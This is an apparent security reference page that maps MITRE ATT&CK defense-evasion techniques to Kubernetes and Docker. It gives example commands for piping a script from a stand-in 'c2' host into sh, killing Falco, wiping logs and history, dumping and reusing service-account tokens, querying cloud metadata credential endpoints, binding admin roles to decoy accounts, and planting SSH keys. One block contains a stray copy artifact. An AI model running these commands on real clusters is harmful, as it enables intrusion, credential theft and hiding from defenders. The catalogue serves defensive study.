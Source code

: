 # Defense Evasion

### **Defense Evasion Techniques in Containerized Environments**

In Kubernetes and Docker environments, adversaries use Defense Evasion techniques to avoid detection, bypass security controls, and blend in with legitimate operations. This includes modifying security tooling, deploying containers with stealthy attributes, hijacking tokens, using default accounts, or abusing naming conventions to appear benign.

#### Build Image on Host (T1610.001)

**Description**: Adversaries build container images on compromised hosts to evade static scanning or registry controls.

**Container Example**:

*   Attacker builds a malicious image locally (host or inside a compromised pod) to avoid detection in CI/CD or image scanning:

    ```bash
    docker build -t stealth-backdoor .
    docker tag stealth-backdoor localhost:5000/nginx
    ```
* Pushes to a private registry or loads directly onto nodes with Docker.

**Benefit**: Avoids scrutiny from tools like Trivy, Clair, or Notary since the image never leaves local scope or uses signed channels.

#### 🐳 Deploy Container (T1610)

**Description**: Deploys containers with malicious behavior, often disguised as benign apps or sidecars.

**Container Example**:

*   Deploys `alpine:latest` or `busybox` with post-deployment behavior like:

    ```bash
    kubectl run benign --image=alpine -- sh -c "curl http://c2/implant.sh | sh"
    ```
* Embeds malware in initContainers or ephemeral Jobs.

**Evasion Angle**: Looks like a harmless system utility or diagnostic pod to blue teams.

#### Impair Defenses → **Disable or Modify Tools (T1562.001)**

**Description**: Modifies or disables container-native defenses like Falco, auditd, seccomp, or AppArmor.

**Container Example**:

*   Kill Falco process in host or remove binary in shared container:

    ```bash
    pkill falco
    rm /etc/falco/falco.yaml
    ```
*   Modify `kube-apiserver` flags to remove audit logging:

    ```bash
    --audit-log-path=""
    ```

**In Kubernetes**:

* Patch a DaemonSet or agent with a malicious image that disables or replaces logging tools.

#### Indicator Removal (T1070)

**Description**: Delete logs, shell history, or artifacts to cover tracks.

**Container Example**:

*   Inside compromised pod or host-mounted volume:

    ```bash
    bashCopyEdithistory -c
    rm -rf /var/log/*
    echo "" > ~/.bash_history
    ```

**Bonus**: Use ephemeral containers or Jobs that auto-delete post execution.

#### 🎭 Masquerading → **Match Legitimate Name or Location (T1036.005)**

**Description**: Name workloads, images, or files to resemble legitimate processes or components.

**Container Example**:

*   Deploys a malicious pod named `metrics-server`, `nginx`, or `dns`:

    ```bash
    kubectl run metrics-server --image=evilcorp/backdoor:latest
    ```

**Other tactics**:

* Drop files like `sshd`, `kubelet`, or `update.sh` in known system paths (`/usr/bin`, `/etc/init.d`).

***

#### 🎭 Masquerading → **Masquerade Account Name (T1036.003)**

**Description**: Create service accounts or usernames that resemble legitimate identities.

**Container Example**:

*   Create a service account named `monitoring-bot`, `grafana-agent`, or `backup-admin`:

    ```bash
    kubectl create serviceaccount grafana-agent
    ```
*   Assign subtle elevated roles:

    ```bash
    kubectl create clusterrolebinding grafana-agent --clusterrole=admin --serviceaccount=default:grafana-agent
    ```

#### Use Alternate Authentication Material → **Application Access Token (T1550.001)**

**Description**: Steal and reuse Kubernetes service account tokens, cloud API keys, or internal OAuth tokens.

**Container Example**:

*   Dump Kubernetes token:

    ```bash
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```
*   Use compromised token externally to query cluster:

    ```bash
    curl -k -H "Authorization: Bearer $TOKEN" https://<api-server>/api/v1/nodes
    ```
* In cloud-native environments, steal tokens from:
  * GCP: `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`
  * AWS: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`

***

#### Valid Accounts → **Default Accounts (T1078.001)**

**Description**: Use preexisting default service accounts or known application credentials.

**Container Example**:

* Exploit default service account permissions (e.g., `default` in `default` namespace).
*   Reuse default passwords in exposed dashboards (e.g., ArgoCD, Jenkins):

    ```bash
    Username: admin
    Password: admin
    ```

**Persistence Angle**: Often overlooked by developers; rare to rotate or revoke.

***

#### Valid Accounts → **Local Accounts (T1078.003)**

**Description**: Use known or created user accounts on container hosts or in images.

**Container Example**:

* SSH into K8s node with leaked credentials (e.g., `ubuntu:ubuntu` on test images).
* Drop your SSH key into `/root/.ssh/authorized_keys` via hostPath mount or privileged pod.

### 🔎 Summary Table

| Technique                   | Sub-Technique     | Containerized Use Case                                 |
| --------------------------- | ----------------- | ------------------------------------------------------ |
| Build Image on Host         | —                 | Build image on node to bypass scanners                 |
| Deploy Container            | —                 | Launch disguised malicious pod (e.g., `alpine`)        |
| Disable or Modify Tools     | —                 | Kill Falco, modify audit settings                      |
| Indicator Removal           | —                 | Delete logs or command history                         |
| Masquerade Name/Location    | —                 | Name pod `metrics-server`, place scripts in `/usr/bin` |
| Masquerade Account Name     | —                 | Use service account `grafana-agent` for cluster access |
| Use Alternate Auth Material | Application Token | Steal SA tokens or cloud metadata tokens               |
| Valid Accounts              | Default Accounts  | Abuse `default` service accounts or dashboard logins   |
| Valid Accounts              | Local Accounts    | SSH into node using local user access or keys          |
